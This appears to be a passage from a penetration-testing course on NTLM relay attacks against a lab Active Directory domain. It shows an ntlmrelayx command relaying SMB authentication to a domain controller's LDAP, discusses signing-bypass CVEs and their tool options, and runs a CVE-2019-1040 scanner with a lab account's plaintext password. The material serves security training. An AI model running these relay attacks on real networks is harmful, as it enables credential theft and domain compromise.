 We can now start `ntlmrelayx` and target the `LDAP` protocol and the Domain Controller (which is the server that commonly hosts the `LDAP` service in the Active Directory network):

```
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections

[*] SMBD-Thread-5: Received connection from 172.16.117.60, attacking target ldap://172.16.117.3
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
```

Notice that after waiting for a while, we may get an error saying:

`The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)`.

From previous sections, we know that by default, domain controllers always require `session signing`, therefore, when we try to relay `SMB NTLM` authentication over `LDAP` on the DC, it will fail, as the DC will request the client to perform `session signing`. However, we also learned that there are exploits that bypass `session signing` requirements, specifically, `Drop the MIC` ( `CVE-2019-1040`), `Drop the MIC 2` ( `CVE-2019-1166`) and `Your Session Key is my Session Key` ( `CVE-2019-1019`). `ntlmrelayx` provides the options `--remove-mic` and `-remove-target` for use against relay targets vulnerable to `CVE-2019-1040` and `CVE-2019-1019`, respectively.

We can use [CVE-2019-1040 Scanner](https://github.com/fox-it/cve-2019-1040-scanner/tree/master) to check whether a relay target is vulnerable to `CVE-2019-1040`, and if it is, we can utilize `ntlmrelayx`’s `--remove-mic` option; however, in our target network the DC is patched (the tool requires a valid domain account, and we will know how to attain one in the next attack):

```
python3 scan.py inlanefreight/plaintext$:'o6@ekk5/#rlw2rAe'@172.16.117.3

[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target 172.16.117.3 is not vulnerable to CVE-2019-1040 (authentication was rejected)
```
